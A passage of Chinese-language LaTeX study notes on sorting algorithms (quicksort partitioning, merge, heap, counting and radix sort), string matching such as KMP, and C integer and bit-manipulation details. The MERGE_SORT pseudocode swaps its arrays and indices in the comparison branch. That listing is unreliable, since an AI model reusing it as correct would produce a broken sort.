    half = len >> 1;
    middle = first;
    advance(middle, half);
    if (*middle < value) {
      first = middle;
      ++first;
      len = len - half - 1;
    }
    else
      len = half;
  }
  return first;
}

template <class RandomAccessIterator, class T, class Distance>
RandomAccessIterator __lower_bound(RandomAccessIterator first,
                                   RandomAccessIterator last, const T& value,
                                   Distance*, random_access_iterator_tag) {
  Distance len = last - first;
  Distance half;
  RandomAccessIterator middle;

  while (len > 0) {
    half = len >> 1;
    middle = first + half;
    if (*middle < value) {
      first = middle + 1;
      len = len - half - 1;
    }
    else
      len = half;
  }
  return first;
}

template <class RandomAccessIterator, class T, class Distance>
RandomAccessIterator __upper_bound(RandomAccessIterator first,
                                   RandomAccessIterator last, const T& value,
                                   Distance*, random_access_iterator_tag) {
  Distance len = last - first;
  Distance half;
  RandomAccessIterator middle;

  while (len > 0) {
    half = len >> 1;
    middle = first + half;
    if (value < *middle)
      len = half;
    else {
      first = middle + 1;
      len = len - half - 1;
    }
  }
  return first;
}

template <class ForwardIterator, class T>
inline ForwardIterator upper_bound(ForwardIterator first, ForwardIterator last,
                                   const T& value) {
  return __upper_bound(first, last, value, distance_type(first),
                       iterator_category(first));
}

template <class ForwardIterator, class T, class Compare, class Distance>
ForwardIterator __upper_bound(ForwardIterator first, ForwardIterator last,
                              const T& value, Compare comp, Distance*,
                              forward_iterator_tag) {
  Distance len = 0;
  distance(first, last, len);
  Distance half;
  ForwardIterator middle;

  while (len > 0) {
    half = len >> 1;
    middle = first;
    advance(middle, half);
    if (comp(value, *middle))
      len = half;
    else {
      first = middle;
      ++first;
      len = len - half - 1;
    }
  }
  return first;
}

\end{lstlisting}
%!Mode:: "TeX:UTF-8"

\section{快速排序}
\label{codes:quicksort}
就地不稳定排序,最差时间$O(N^2)$,平价时间$O(Nlog(N))$,空间复杂度$O(logN)$(递归造成的空间开销)。


有许多版本,包括就地非稳定版本和稳定非就地版本。
网上有一些非权威程序员给出了非递归版本,自行实现栈结构以模拟递归调用行为。

\cite{pp}和\cite{sedgewick}提出了以下几种划分方案:
\begin{itemize}
    \item 
	Lomuto划分, x[l]存放t,[l+1,m]小于t,(m,i)大于等于t,[i,u]未知。
    \item 
	双向划分, x[l]存放t,[l+1,m]小于等于t, (m,i)未知,[i,u]大于等于t。
    \item 
	三路划分(\cite{pp}11.5.11称为宽支点划分)。[l, lt)部分小于t,[lt,i)等于t,[i,gt]未知,(gt,u]大于t。
\end{itemize}


对快速排序pivot的选择,早期常使用最左元素,导致对有序数组性能很差。R.Sedgewick提出\cite{wikipedia}选择pivot的方案:
\begin{itemize}
    \item 随机元素
    \item 中间元素
    \item 最左、最右和中间元素的均值
\end{itemize}

他同时提出了两种优化:
\begin{itemize}
    \item 先递归较短的那半数组,以保证最多使用$O(logN)$空间。较长的那半数组使用尾部递归或遍历,可能不额外增加堆栈空间。
    \item 数组段较短时不再排序,最终使用插入排序扫一遍,插入排序对于近似排好的数组很高效。
\end{itemize}

代码示例参考\ref{codes:quicksort}。




《算法导论》给出的分割算法没有判断输入条件,是因为边界条件已经在QUICKSORT代码中判断过了,
但这样的话\textbf{如果要求单独写分割算法可能引起误解},同时必须解释本节伪代码\textbf{数组下标从1开始}。

\begin{lstlisting}[language=C++]
PARTITION(A,l,u) 
 assert l < u
 exchange A[rand(l,u)] <-> A[u]
 m <- l - 1 
 for i <- l to u-1 do
    if A[i] <= A[u] then exchange A[++m] <-> A[i] 
 exchange A[++m] <-> A[u] 
 return m
\end{lstlisting}
模拟了尾递归的快速排序:
\begin{lstlisting}[language=C++]
TAIL-RECURSIVE-QUICKSORT(A,l,u)
  while l < u do
    m <- PARTITION(A,l,u)
    if m < (l+u)/2 do
      TAIL-RECURSIVE-QUICKSORT(A,l,m-1)
      l <- m+1
    else
      TAIL-RECURSIVE-QUICKSORT(A,m+1,u)
      u <- m-1
\end{lstlisting}



其他代码有:

\begin{lstlisting}[language=C++]
/* Sedgewick's version of Lomuto, with sentinel */
void qsort2(int l, int u)
{	int i, m;
	if (l >= u)
		return;
	m = i = u+1;
	do {
		do i--; while (x[i] < x[l]);
		swap(--m, i);
	} while (i > l);
	qsort2(l, m-1);
	qsort2(m+1, u);
}
\end{lstlisting}


\begin{lstlisting}[language=C++]
/* Two-way partitioning */
void qsort3(int l, int u)
{	int i, j;
	DType t;
	if (l >= u)
		return;
	t = x[l];
	i = l;
	j = u+1;
	for (;;) {
		do i++; while (i <= u && x[i] < t);
		do j--; while (x[j] > t);
		if (i > j)
			break;
		swap(i, j);
	}
	swap(l, j);
	qsort3(l, j-1);
	qsort3(j+1, u);
}
\end{lstlisting}


\begin{lstlisting}[language=C++]
/* qsort3 + randomization + isort small subarrays + swap inline */
int cutoff = 50;
void qsort4(int l, int u)
{	int i, j;
	DType t, temp;
	if (u - l < cutoff) return;
	swap(l, randint(l, u));
	t = x[l];
	i = l;
	j = u+1;
	for (;;) {
		do i++; while (i <= u && x[i] < t);
		do j--; while (x[j] > t);
		if (i > j)
			break;
		temp = x[i]; x[i] = x[j]; x[j] = temp;
	}
	swap(l, j);
	qsort4(l, j-1);
	qsort4(j+1, u);
}

\end{lstlisting}

\cite{sedgewick}提出了三路分割,用于应对有大量keys重复的情形,并证明三路分割的快速排序具有熵最优性。该算法使用了$(2lg2)NH$次比较,H为香农熵,$H=-\sum{p_{k}lnp_k}$。


\begin{lstlisting}[language=Java]

public class Quick3way
{
    private static void sort(Comparable[] a, int lo, int hi)
    { // See page 289 for public sort() that calls this method.
	if (hi <= lo) return;
	int lt = lo, i = lo+1, gt = hi;
	Comparable v = a[lo];
	while (i <= gt)
	{
	    int cmp = a[i].compareTo(v);
	    if (cmp < 0) exch(a, lt++, i++);
	    else if (cmp > 0) exch(a, i, gt--);
	    else
	    i++;
	} // Now a[lo..lt-1] < v = a[lt..gt] < a[gt+1..hi].
	sort(a, lo, lt - 1);
	sort(a, gt + 1, hi);
    }
}
\end{lstlisting}

\section{归并、插入、冒泡排序}

\textbf{归并排序}为\textbf{非就地、稳定}排序。
时间复杂度为$\Theta(N \log N)$(最好、最坏),空间复杂度为$O(N)$。对于链表,适合使用归并排序,此时不需要额外存储空间。
快速排序用于链表时性能很差,堆排序几乎不可行。
数组也可实现就地稳定的归并排序,但时间复杂度退化到Quasilinear($O(N \log^2 N)$)。

归并排序可实现为自顶向下式(递归式,《算法导论》风格)和自底向上式。
自然归并排序(Natural merge sort)是自底向上式的变种,利用了既已有序的子序列。



\begin{lstlisting}[language=bash]
MERGE_SORT(A,l,u)
  if l < u
    m <- (l+u)/2
    MERGE_SORT(A,l,m)
    MERGE_SORT(A,m+1,u)
    n1 <- m - l + 1, n2 <- u - m
    create B1[1..n1+1] <- [A[l,m],INFINITY]
    create B2[1..n2+1] <- [A[m+1,u],INFINITY]
    i <- j <- 1
    for k <- l to u do
      if B1[i] < B2[j] then
        A[k] <- B2[i++]
      else
        A[k] <- B1[j++]   
\end{lstlisting}

\textbf{插入排序}的优点:稳定,就地,on-line,对小数据集效率高,对近似排序的数据性能优异。在所有二次复杂度排序算法中是最快的。
最好(如,已排序)、平均、最坏(降序数组)情形下的时间复杂度分别为线性、二次方、二次方。
\begin{lstlisting}[language=bash]
INSERTION-SORT(A,n)
  for i <- 2 to n do
    key <- A[i]
    j <- i - 1
    while j > 0 and A[j] > key do
      A[j+1] <- A[j]
      j <- j-1
    A[j+1] <- key
\end{lstlisting}

\textbf{冒泡排序}优点是简单(适合教学)有趣,但很多科学家还是提倡连教学都不要用它。

\begin{lstlisting}[language=bash]
BUBBLE-SORT(A)
    last <- length[A] + 1
    repeat
       newn <- 1
       for i <- 2 to last - 1 do
          if A[i-1] > A[i] then
             exchange A[i-1] <-> A[i]
             newn <- i
       last <- newn
    until last = 1
\end{lstlisting}
上述代码中,不变式为:last为上次排好的元素,last及其以上元素已不需要排序,本次至少能排好A[last-1]。
冒泡排序就地、稳定,在最好的情形下为线性运行时间,如同插入排序,但比后者慢。




\section{堆排序}
堆排序(Heapsort)是指利用堆数据结构所设计的一种排序算法,隶属于基于选择的排序算法。堆是一个近似完全二叉树的结构。
其时间复杂度在最好、最差情形均为$O(Nlog(N))$。堆排序是就地不稳定排序,一般比快速排序算法慢,但是最差复杂度要更好。


基于\cite{pp}14.2给出的两个关键函数siftup和siftdown,仅用几行程序就可实现堆排序。
\begin{lstlisting}[language=Python]
    #make heap
    for i in range(2, len(x)):
	siftup(x, i) #必须是大顶堆
    
    #sort heap
    for i in range(len(x)-1, 1, -1):
	tmp = x[1]; x[1] = x[i]; x[i] = tmp
	siftdown(x, i-1)
\end{lstlisting}
对\cite{pp}14.2节siftup的优化包括x[0]置哨兵,放置一个大数;x[i]上浮时,不交换i,p两个位置,即将swap展开,只置i,不置p。siftdown很难使用哨兵,但也可以通过展开swap来进行优化。

《算法导论》给出的MAX-HEAPIFY方法相当于siftdown, 其构造堆的操作使用的是siftdown而非siftup:
\begin{lstlisting}[language=bash]
MAX-HEAPIFY(A,i)
  l <- 2i,r <- 2i+1,largest <- i
  if l <= heap-size[A] and A[l] > A[i] then
    largest <- l
  if r <= heap-size[A] and A[r] > A[largest] then
    largest <- r
  if largest != i then
    exchange A[largest] <-> a[i]
    MAX-HEAPIFY(A,largest)
\end{lstlisting}

BUILD-MAX-HEAP(A)操作的运行时间仅为\textbf{线性}:
$\sum \limits_{h=0} ^{\lfloor \lg n \rfloor} \lceil \frac{n}{2^{h+1}} \rceil O(h) = O(n \sum \limits_{h=0} ^{\lfloor \lg n \rfloor} \frac{h}{2^h}) = O(n \sum \limits_{h=0} ^{\infty} \frac{h}{2^h}) = O(n)$。
\begin{lstlisting}[language=bash]
BUILD-MAX-HEAP(A)
  heap-size[A] <- length[A]
  for i <- round(heap-size[A]/2)  downto 1 do
    MAX-HEAPIFY(A,i)

HEAP-SORT(A)
  BUILD-MAX-HEAP(A)
  for i <- length[A] downto 2 do
    exchange A[1] <-> A[i]
    heap-size[A] <- heap-size[A] - 1
    MAX-HEAPIFY(A,1)
\end{lstlisting}

C++标准库提供来堆操作,包括make\_heap, push\_heap, pop\_heap,sort\_heap等。可以用两行代码实现堆排序:
\begin{lstlisting}[language=Python]
    make_heap(a, a+n)
    sort_heap(a, a+n)
\end{lstlisting}

C++标准库也提供了对优先级队列priority\_queue的支持。

\section{排序算法实现}
\textbf{STL的sort实现了内省排序}。内省排序(intro sort)集成了快速排序和堆排序。这个排序算法首先从快速排序开始,当递归深度超过一定深度(深度为排序元素数量的对数值)后转为堆排序。采用这个方法,内省排序既能在常规数据集上实现快速排序的高性能,又能在最坏情况下仍保持$O(n\lg n)$的时间复杂度。

SGI STL的list容器的sort方法使用了自底向上归并排序,由于链表不方便使用2-2-2-2-4-4-8式均匀向上归并,这里临时分配64个临时list,分别管理长度为1、2、4、8\dots 的中间链表,原链表的元素逐一插入中间链表,中间链表如同二进制数值一般满则进位,最终归并所有中间链表即可。

C语言中,stdlib.h则提供了\textbf{qsort库函数}:
\begin{lstlisting}[language=C]
void qsort(void *base, size_t nmemb, size_t size,
    int (*compar)(const void *, const void *));
\end{lstlisting}

uClibc库使用了希尔排序。\textbf{希尔排序}又称缩减增量排序。其优点是运行较快(平均时间为亚二次复杂度$o(N^2)$),代码短且省内存(适合嵌入式系统)。
其时间复杂度取决于增量序列,且极难分析。Shell序列($\lfloor N/2^{k}\rfloor $)性能比较差,最差复杂度为$\Theta(N^2)$。
Sedgewick给出了一些最差复杂度$O(N^{4/3})$的序列。许多序列有$O(N^{3/2})$最差复杂度。
Pratt给出了最差复杂度$O(N \log^{2} N)$的序列为目前的最佳序列。

\textbf{Timsort}集成了归并排序和插入排序。Timsort于2002年由Tim Peters为Python设计,现已用于Java 7, Android和GNU Octave排列非内置类型。
Timsort分析既已有序(非降序和严格降序)的子数组,称为run。如果run短于某阈值则按进行插入排序使其达到阈值。严格降序的run被翻转成严格升序run。



\section{线性时间排序}
\textbf{计数排序}假定元素值介于0到k之间的整数,运行时间为$\Theta(n+k)$。
当$k=O(n)$时,运行时间为$\Theta(n)$。
计数排序是\textbf{稳定}的,需要$O(k)$临时存储,亦无法做到就地排序。
\begin{lstlisting}[language=bash]
COUNTING-SORT(A,B,k)
  create C[0..k] <- 0
  
  for i <- 1 to length[A] do
    C[A[i]] <-  C[A[i]] + 1
    
  for j <- 1 to k do
    C[j] <- C[j] + C[j-1]
    
  j <- 1
  while C[j] = 0 do
    j <- j + 1
    
  for i <- length[A] downto 1 do
    B[C[A[i]]] <- A[i]
     C[A[i]] <-  C[A[i]] - 1
\end{lstlisting}
之所以要在最后一个循环中从后向前遍历A[i],是为了保证稳定性:对于相同取值的元素,名次逐渐减小。

\textbf{基数排序}(Radix Sort)是\textbf{稳定排序},依赖于另一种针对整数的稳定排序,从低位到高位依次对每一位数排序。
给定n个k进制d位数,如果所用的整数排序算法需要$\Theta(n+k)$时间,则基数排序需要$\Theta(d(n+k))$时间。当k不太大时,可选择计数排序作为其辅助排序算法。

\textbf{桶排序}算法,如果输入数据满足一个特性:\textbf{各桶尺寸的平方和与总元素数呈线性关系},则桶排序算法以期望线性时间运行。
此时,桶内排序算法可使用\textbf{插入排序}:桶内元素不会太多,且桶多以链表方式实现,用插入排序可保证稳定性。



\section{排序算法总结}
\subsection{排序算法分类}
\label{subsec:sortAthmClass}

根据\cite{acp},排序算法包括内部排序和外部排序(不完全放入RAM)。内部排序分类:插入,交换,选择,合并,分布。
根据\cite{ita},排序算法包括基于比较的排序和非基于比较的排序(可以达到线性时间复杂度)。
\cite{weijipedia}给出了丰富的讲解材料。
\begin{verbatim}
http://en.wikipedia.org/wiki/Sorting_algorithm
\end{verbatim}

\begin{description}
    \item[基于插入的排序] 
        \hfill \\
	\begin{description}
	    \item[直接插入]就地稳定。$O(N^2)$。参\cite{ita}2.2。适用于近似有序数组。快速排序和插入排序可以联合使用,性能极佳。
	    \item[希尔(Shell)排序]就地,不稳定。\cite{acp}5.2.1D。也称递减增量排序算法,不需要大量的辅助空间,不稳定,复杂度取决于降序序列的选取,可能是$O(Nlg^{2}(N))$,$O(NlogN)$, $N^{\frac{6}{5}}$。
	    \item[图书馆排序]有n个元素待排序,这些元素被插入到拥有(1+e)n个元素的数组中。
	    \item[(二叉)树排序]稳定。线性空间复杂度。先构造二叉查找树,再in-order遍历之。从文件中读数时比较方便。平均时间$O(NlogN)$,二叉树不平衡时最差$O(N^2)$。
	    \item[其他]二路插入(使用二分法查找合适度位置,但未能减小移动数据度开销),表插入(以链表实现,减小数据复制开销),地址计算插入等。
	\end{description}
    \item[基于交换的排序] 
        \hfill \\
	\begin{description}
	    \item[冒泡]稳定就地排序。$O(N^2)$。数据交换过多,\cite{acp}认为不值得推荐。
	    \item[鸡尾酒排序]稳定就地排序。冒泡排序的变种。别名:双向冒泡排序, 鸡尾酒搅拌排序, 搅拌排序,涟漪排序, 来回排序。
	    \item[快速排序]就地不稳定。最差时间$O(N^2)$,平价时间$O(Nlog(N))$,空间$O(logN)$。\cite{sedgewick}认为快速排序是最快的。
	    \item[奇偶排序]奇偶换位排序,或砖排序。最初发明用于有本地互连的并行计算。
	    \item[Gnome Sort]又称stupid sort。类似插入排序,但通过同前面元素交换实现插入。
	    \item[梳子排序]冒泡排序的变种。不稳定。如同快速排序和合并排序,梳排序的效率在开始时最佳,接近结束时,即进入泡沫排序时最差。如果间距变得太小时(例如小于10),改用诸如插入排序或鸡尾酒排序等算法,则可提升整体效能。
	    \item[其他]合并交换(在可并行比较计算时有用),基数交换,地址计算插入等。
	\end{description}
    \item[基于选择的排序]
        \hfill \\
	\begin{description}
	    \item[直接选择]就地不稳定。$O(N^2)$。
	    \item[堆排序]就地不稳定。时间$O(Nlog(N))$,空间$O(1)$。\cite{ita}认为堆排序不如快速排序,但有其他用途,如实现优先级队列。	
	    \item[锦标赛排序]基于堆,待排数据初存于叶子节点,决出胜者,将胜者从其上升路径中删除,在存放胜者的叶子节点放置一个大数。时间$O(Nlog(N))$,需要额外空间作为堆。主要用于外排序的多路合并步骤。

	\end{description}
    \item[基于合并的排序] 
        \hfill \\
	\textbf{归并排序},非就地,稳定。\cite{ita}2.3节Merge例程先将待合并数组的两个有序子数组拷贝到外部,再拷回原数组使有序。
	比较操作的次数介于$(nlogn)/2$和$nlogn-n+1$,赋值操作的次数是$2nlogn$,空间复杂度为:Θ (n)\cite{weijipedia}。
	\cite{acp}提出了如下两个非递归的归并排序算法,额外分配了与原数组等长的缓冲区。
	\begin{description}
	    \item[自然的两路合并]\cite{acp}5.2.4算法N。
	    \item[直接两路合并]\cite{acp}5.2.4算法S。
	\end{description}
	另外,还有就地不稳定版本的合并排序(\cite{acp}Vol3 习题5.2.5,$O(NlgN)$时间,流程复杂)。也有就地稳定版本(\cite{acp}Vol3习题)的合并排序,流程简单,时间复杂度有所增加,失去了意义。对于就地不稳定版本,分为分块、预排序、两两归并、扫尾四部。分为m+2块,除最后一块外,其他快大小都是$sqrt(n)$。块内排序。块排序,依据块的首元素,如首元素相同则依据末尾元素。然后执行多次AUX排序。\url{http://blog.ibread.net/345/in-place-merge-sort/}.
    \item[基于分布的排序] \hfill \\

	\begin{description}
	    \item[桶排序]\cite{ita}8.4。稳定?,最差时间$O(n+k)$,平均时间$O(n+k)$,需要额外空间存放桶。It is a distribution sort, and is a cousin of radix sort in the most to least significant digit flavour. Bucket sort is a generalization of pigeonhole sort. 
	    \item[鸽巢排序]鸽巢排序(Pigeonhole sort), 也被称作基数分类\cite{weijipedia}(count sort\cite{wikipedia}), 时空复杂度均$O(n+k)$,适用于$k=O(n)$情形,否则不如桶排序。计数排序中元素移动一次,鸽巢排序则移动两次(入、出鸽巢)\cite{wikipedia}.
	    \item[比较计数]\cite{acp}5.2算法C,统计比该记录小的记录的个数。时间$O(N^2)$,空间$O(N)$。无大用。
	    \item[分布计数]\cite{acp}5.2算法D。\cite{ita}8.2。稳定排序。时间$O(n+k)a$,空间$O(k+n)$,k为分布空间大小,需要额外空间存放辅助表和排序结果。若$k=O(n)$,则时空均为$O(n)$。涉及的操作包括prefix sum(cumulative sum).
	    \item[基数排序]\cite{ita}8.3。若每个基数位使用计数排序,则时间$O(d(n+k))$,d为位数,k为基数。
	\end{description}
\end{description}

另外,bogosort(猴子排序)通过随机洗牌来排序,时间复杂度无上限,仅供了解。一个笑话说:量子计算机能够以 O(n) 的复杂度更有效地实现Bogo排序。


\subsection{空间复杂度}
总之,如果不是就地排序,则至少需要$O(N)$的额外空间,如归并排序。快速排序为就地排序,但需要$O(logN)$的空间。
归并排序的主要缺点就是额外空间问题。

\subsection{稳定性}
\cite{weijipedia}
1.稳定的排序
\begin{enumerate}
	\item 冒泡排序, 鸡尾酒排序
	\item 插入排序
	\item 归并排序
	\item 二叉树排序
	\item 鸽巢排序
	\item 桶排序
	\item 计数排序
	\item 基数排序
	\item Gnome sort
	\item 图书馆排序
	\end{enumerate}

	2.不稳定的排序

	\begin{enumerate}
	\item 选择排序
	\item 希尔排序
	\item Comb sort
	\item 组合排序
	\item 堆排序
	\item Smoothsort
	\item 快速排序
	\item Introsort
	\item Patience sort
    \end{enumerate}

\cite{sedgewick}习题2.5.18提出了强制稳定性概念,比如用额外的字段记录每个数据的位置,在不稳定排序操作之后用此字段恢复原来的相对次序。
原地分区版本的快速排序算法是不稳定的。其他变种是可以通过牺牲性能和空间来维护稳定性的\cite{weijipedia}。

综上,基本上可以认为,如果排序算法涉及到非相邻元素间的互换(冒泡算法是相邻互换),那么就是不稳定的。


\subsection{外部排序}
主要算法\cite{wikipedia}:
\begin{itemize}
    \item 
        \textbf{外部合并排序}\cite{wikipedia}.涉及的数量概念是pass(取决于算法设计,不宜过多)和way(取决与数据量与RAM空间比值)。pass是步骤数,pass1将子文件排序并存放于way路临时文件,pass2进行多路合并。如果way过多,pass2会因磁盘寻道频繁而效率低下。此时可增加pass数,pass2合并way路为更少的路数,pass3将现有路数合并成1路。
    \item 
	\textbf{外部桶排序},基于分布的排序。桶排序和合并排序具有数学上的对偶性\cite{weijipedia}。k趟算法可以在kn的时间开销和\verb|n/k|空间开销内完成对最多n个小于n的无重复正整数的排序(选自\cite{pp}1.5答案,每趟使用位图法进行排序)。
\end{itemize}
\cite{pp}1.3的归并排序、多趟排序分别指这里的外部合并排序和外部桶排序。

此外,还有一些不需要临时文件的原地算法。 Merge sort is used in external sorting; heapsort is not. Locality of reference is the issue.



\subsection{对整数排序}
\cite{wikipedia}
题目中研究的对象如果是整数,可以在其值域做文章。计算机中的整数取值空间有限且可数。
主要算法:
\begin{itemize}
    \item 
van Emde Boas tree,\cite{ita}第3版第20章,\cite{wikipedia}。
    \item 
non-conservative "packed sorting" algorithm
    \item 
	位图排序,要求key可表示为整数且互异。bit在bit序列中的位置代表整数的值,而bit的值代表存在性。如果整数出现多次\cite{pp}1.6.6,或者需要统计其他属性(而不仅仅是存在性),可以考虑用多个bit位表示每个整数,bit值代表该属性。如\cite{pp}1.6.8,美国免费电话号(800.887.888)存储问题,可以用3个bit分别表示以800,887,888前缀的特定7位号码是否已经存在\cite{self}。
    \item 
Bucket sort, counting sort, radix sort
\end{itemize}

%!Mode:: "TeX:UTF-8"
\section{字符串匹配算法}

维基百科条目:\url{https://en.wikipedia.org/wiki/String_searching_algorithm}

关于各种算法的比较,见:

\url{http://programmers.stackexchange.com/questions/183725/which-string-search-algorithm-is-actually-the-fastest}
\url{http://stackoverflow.com/questions/5106586/what-are-the-available-string-matching-algorithms-besides-knuth-morris-pratt-ra}


\subsection{KMP(Knuth–Morris–Pratt)算法}
\begin{lstlisting}[language=C++]
CREATE_PREFIX_FUNCTION(P)
  k <- 0
  create p[1..length[P]]
  p[1] <- 0
  for i <- 2 to length[P] do
    while k > 0 and P[i] != P[k+1] do
      k <- p[k]
    if P[i] = P[k+1] then
      p[i] <- p[k] + 1
      k <- k + 1
    p[i] <- k

  return p

KMP-MATCHER(T,P)
  k <- 0
  for i <- 1 to length[T] do
    while T[i] != P[k+1] and k > 0 do
      k <- p[k]
    if T[i] = P[k+1] then
       k <- k + 1
       if k = length[P] then
         on_match(T, i)
         k <- p[k]

\end{lstlisting}

用KMP算法实现的strstr算法,通过了LeetCode验证:
\begin{lstlisting}[language=C++]
class Solution {
public:
    int strStr(string haystack, string needle) {
        int n = haystack.size(), m = needle.size();
        if (m == 0) return 0;
        if (n < m) return -1;

        vector<int> transition(m);
        transition[0] = -1;
        int j = -1;
        for (int i = 1; i < m; ) {
            if (needle[i] == needle[j+1]) {
                transition[i++] = j + 1;
                j++;
            } else {
                if (j >= 0) {
                    j = transition[j];
                } else {
                    transition[i++] = -1;
                }
            }
        }

        j = -1;
        for (int i = 0; i < n; ) {
            if (haystack[i] == needle[j+1]) {
                j++;
                i++;
                if (j == m - 1) return (i - m);
            } else {
                if (j >= 0) {
                    j = transition[j];
                } else {
                    i++;
                }
            }
        }
        return -1;
    }
};


\end{lstlisting}

\url{http://www-igm.univ-mlv.fr/~lecroq/string/node8.html}给出的C语言实现:
\begin{lstlisting}[language=C++]

void preKmp(char *x, int m, int kmpNext[]) {
   int i, j;

   i = 0;
   j = kmpNext[0] = -1;
   while (i < m) {
      while (j > -1 && x[i] != x[j])
         j = kmpNext[j];
      i++;
      j++;
      if (x[i] == x[j])
         kmpNext[i] = kmpNext[j];
      else
         kmpNext[i] = j;
   }
}


void KMP(char *x, int m, char *y, int n) {
   int i, j, kmpNext[XSIZE];

   /* Preprocessing */
   preKmp(x, m, kmpNext);

   /* Searching */
   i = j = 0;
   while (j < n) {
      while (i > -1 && x[i] != y[j])
         i = kmpNext[i];
      i++;
      j++;
      if (i >= m) {
         OUTPUT(j - i);
         i = kmpNext[i];
      }
   }
}
\end{lstlisting}


\subsection{Boyer–Moore算法}
BM算法由 Robert S. Boyer 和J Strother Moore 于1977年发表。

BM算法的特色是从模式尾部开始匹配,并可以跳过多个字符。它首先计算坏字符规则和好前缀规则。

坏字符表是个二维表,一维是字母表,第二维是模式P中的位置。

\url{http://en.wikipedia.org/wiki/Boyer–Moore_string_search_algorithm}

Horspool算法,又称\href{https://en.wikipedia.org/wiki/Boyer%E2%80%93Moore%E2%80%93Horspool_algorithm}{Boyer–Moore–Horspool}算法,是对BM算法的简化。只使用了坏字符表,且只针对pattern的最后一个字符进行移动。


\subsection{AC算法}
\url{http://en.wikipedia.org/wiki/Aho-Corasick_string_matching_algorithm}

多模匹配算法。

\subsection{后缀树}
后缀树(Suffix tree)是一种数据结构,能快速解决很多关于字符串的问题。后缀树的概念最早由Weiner 于1973年提出,既而由McCreight 在1976年和Ukkonen在1992年和1995年加以改进完善。

一个string S 的后缀树是一个边(edge)被标记为字符串的树.因此每一个S的后缀都唯一对应一条从根节点到叶节点的路径.这样就形成了一个S的后缀的基数树(radix tree). 后缀树是前缀树(trie)里的一个特殊类型.

在计算机科学中,trie,又称前缀树或字典树,是一种有序树,用于保存关联数组,其中的键通常是字符串。与二叉查找树不同,键不是直接保存在节点中,而是由节点在树中的位置决定。一个节点的所有子孙都有相同的前缀,也就是这个节点对应的字符串,而根节点对应空字符串。一般情况下,不是所有的节点都有对应的值,只有叶子节点和部分内部节点所对应的键才有相关的值。




\subsection{Rabin-Karp}

The Rabin–Karp algorithm is inferior for single pattern searching to Knuth–Morris–Pratt algorithm, Boyer–Moore string search algorithm and other faster single pattern string searching algorithms because of its slow worst case behavior. However, it is an algorithm of choice for multiple pattern search.





















%!Mode:: "TeX:UTF-8"
\chapter{C与C++}

%!Mode:: "TeX:UTF-8"
\section{整数/浮点数运算}

两个整数作\verb+&&,||,!+逻辑运算只有0和1两种结果。做\verb+&,|,^,~+等位运算,相当于每一bit分别运算,注意取反运算的结果与整数本身的位数有关。



\subsection{bit操作技巧}
设\verb$P = 2^s, M = P - 1$。M常被称作Mask;s被称作shift。

对齐运算:round-up(将整数x按P对齐的一种方式): \verb$((x) + M) & (~M)$; round-down: \verb$(x) & (~M)$。

buffer适配(为长度为x的对象分配内存,但需P倍数):\verb$((x) + M) >> s $。
更一般地,将[0,n]整数分割到长度为P的桶中,如不要求round-up方式,则x所在桶为\verb$(x) >> s $,x在桶中位次\verb$x & M$。注意
求桶位次运算和对齐运算的区别,对齐运算和桶分配运算的关联。桶分配相当于除法,桶位次相当于求模。

由M推导s:\verb$for(s=0,p=1;p < P;s++, p <<= 1);$。如果M并非2的某个幂,那么该式求出的p为恰好大于P的某个幂。

除去x的二进制表示的最末尾的1:\verb|(x) &((x)-1)|。

将0到N之间的数字用位图表示,实现按位操作:类似桶分配操作,一个32位int是一个桶,P=32:
\begin{lstlisting}[language=C++]
#define P 32
#define s 5
#define M 0x1F
int a[1+N/32];
#define set(i) a[i>>s] |= (1 << (i & M))
#define clr(i) a[i>>s] &= ~(1 << (i & M))
#define test(i) (a[i>>s] & (1 << (i & M)))
\end{lstlisting}


\subsection{补码(Two's Complement)}
应区分“\textbf{补码运算}”和“\textbf{补码表示}”。

\textbf{补码运算}为反码(One's Complement)运算加1。

正数的\textbf{补码表示}等同于其二进制表示,而正数的\textbf{补码运算}结果为一负数的\textbf{补码表示}。\textbf{补码运算}相当于求该数的相反数的\textbf{补码表示}。
\textbf{补码表示}的范围是$-2^{N-1}$到$2^{N-1}-1$。而反码(One's Complement)的表示范围是$-(2^{N-1}-1)$到$2^{N-1}-1$

\textbf{补码运算}的溢出会被忽略。对零作\textbf{补码运算},会发生上溢,忽略上溢后仍是零。

一个数同其\textbf{补码运算}结果(等同于其相反数的\textbf{补码表示})相加(作无符号加法),结果为$2^N$。

一个数同其反码运算结果相加(作无符号加法),结果为$2^N-1$。


\subsection{负数右移}
\cite{krc}A.7.8。
移位运算符<<和>>遵循从左到右的结合性。每个运算符的各操作数都必须为整型,并且遵循整型提升原则。结果的类型是提升后的左操作数的类型。如果右操作数为负值,或者大于或等于左操作数类型的位数,则结果没有定义。

在对unsigned 类型的无符号值进行右移位时,左边空出的部分将用0填补;当对 signed 类型的带符号值进行右移时,某些机器将对左边空出的部分用符号位填补(即“算术移位”),而另一些机器则对左边空出的部分用0填补(即“逻辑移位”)。 

unsigned char类型的0xA2右移一位得0x51,而char类型的0xA2右移1位可能为0xD1(gcc验证)。

\subsection{二进制反码运算符}
一元运算符~的操作数必须是整型,结果为操作数的二进制反码。在运算过程中需要对操作数进行整型提升。如果操作数为无符号类型,则结果为提升后的类型能够表示的最大值减去操作数的值而得到的结果值。如果操作数为带符号类型,则结果的计算方式为:将提升后的操作数转换为相应的无符号类型,使用运算符~计算反码,再将结果转换为带符号类型。结果的类型为提升后的操作数的类型。


\subsection{台湾某CPU厂商面试题}
\begin{lstlisting}[language=C++]
    #include <iostream>
    using namespace std;
    int main()
    {
	unsigned char a = 0xA5;
	unsigned char b = ~a>>4+1;
	//cout << b << endl;
	printf(``b=%d\n'', b);
	return 0;
    }
\end{lstlisting}

本题有多处陷阱,一是移位运算的优先级很低,低于加法,因此~a实际上是右移5位,而非右移4位再加1;第二,a取反时应作整型提升,变为有符号数int型;第三,有符号数右移运算的结果实际上取决于实现,本题不妥;第四,b作为无符号数,打印前整型提升,却也不会将符号位进行扩展。

a整型提升后为0x000000a5,取反后为0xffffff5a,假设是算数移位,需要符号扩展,则右移5位得0xfffffffa,b的值为0xfa,整型提升后的值为0x000000fa。按照\%d打印为250。


如果将b强制类型转换为char型,再打印(\lstinline!printf(``%d\n'', (char)b);!),则整型提升结果为0xfffffffa,打印结果为-6(将任何整数转换为带符号类型时, 如果它可以在新类型中表示出来, 则其值保持不变, 否则它的值同具体的实现有关, 参\cite{self}\ref{typeConv}, \cite{krc}A.6.2)。 

对b的打印也这样理解:\%d如实打印参数的符号,0xfa作为char类型为负数-6,作为unsigned char则为无符号数250,故而有上述结果。

\subsection{类型数值范围}
